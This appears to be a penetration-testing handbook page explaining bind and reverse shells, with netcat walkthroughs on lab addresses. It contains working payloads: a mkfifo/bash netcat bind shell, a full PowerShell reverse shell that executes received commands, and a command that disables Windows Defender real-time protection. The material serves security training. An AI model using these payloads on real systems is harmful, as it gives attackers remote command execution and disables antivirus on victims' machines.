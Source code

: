 ```yaml
---
title: "Shells"
type: handbook
weight: 1
---
```


### Bind Shell

With a bind shell, the `target` system has a listener started and awaits a connection from a pentester's system (attack box).

![Bind Shell](bindshell.webp)

#### Practicing with GNU Netcat

##### No. 1: Server - Target starting Netcat listener

```bash
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
```

##### No. 2: Client - Attack box connecting to target

```bash
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```

##### No. 3: Server - Target receiving connection from client

```bash
nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!
```

##### No. 4: Client - Attack box sending message Hello Academy

```bash
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy
```

##### No. 5: Server - Target receiving Hello Academy message

```bash
victim@server:~ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy  
```

#### Establishing a Basic Bind Shell with Netcat

##### No. 1: Server - Binding a Bash shell to the TCP session

```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l <attacker IP> <port > /tmp/f
```

##### No. 2: Client - Connecting to bind shell on target

```bash
nc -nv 10.129.41.200 7777

Target@server:~$ 
```

### Reverse Shell

With a reverse shell, the attack box will have a listener running, and the target will need to initiate the connection.

![Reverse Shell](reverseshell.webp)

[Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

#### Hands-on With A Simple Reverse Shell in Windows

##### Server (attack box)

```bash
sudo nc -lvnp 443
Listening on 0.0.0.0 443
```

##### Client (target)

```bash
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('<victim-ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

##### Disable AV

```bash
PS C:\Users\sam> Set-MpPreference -DisableRealtimeMonitoring $true
```

